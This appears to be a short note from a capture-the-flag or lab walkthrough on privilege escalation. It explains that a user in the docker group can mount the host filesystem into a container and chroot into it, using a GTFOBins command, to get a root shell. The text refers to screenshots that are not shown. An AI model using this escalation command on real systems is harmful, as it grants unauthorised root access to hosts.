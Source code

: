 The user `r00t` is part of docker group, this can be leveraged to escalate our privileges
![[Pasted image 20240822165636.png]]

- list docker images
```bash
docker image ls 
```
![[Pasted image 20240822165715.png]]
- refer to GTFObins for shell access
```bash
docker run -v /:/mnt --rm -it *bash* chroot /mnt sh
```
use the image name in command (here: `bash`)
- get root
![[Pasted image 20240822165809.png]]

